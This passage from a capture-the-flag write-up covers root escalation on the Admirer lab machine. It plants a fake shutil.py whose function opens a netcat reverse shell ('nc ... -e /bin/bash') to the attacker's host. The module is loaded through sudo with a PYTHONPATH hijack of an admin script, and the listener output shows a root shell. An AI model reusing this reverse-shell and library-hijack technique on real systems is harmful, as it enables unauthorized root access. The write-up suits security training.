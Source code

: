 {% highlight bash %}
waldo@admirer:~$ cat shutil.py
import os

def make_archive(a,b,c):
    os.system("nc 10.10.XX.XX 1337 -e /bin/bash")

{% endhighlight %}

Now, all we have to do is run `admin_task.sh`.

{% highlight bash %}
waldo@admirer:/tmp$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
{% endhighlight %}

# root.txt

And on our listener we prepared beforehand,

{% highlight bash %}
$ nv -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.187] 56858
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
5049XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

## Rooted ! Thank you for reading and look forward for more writeups and articles !

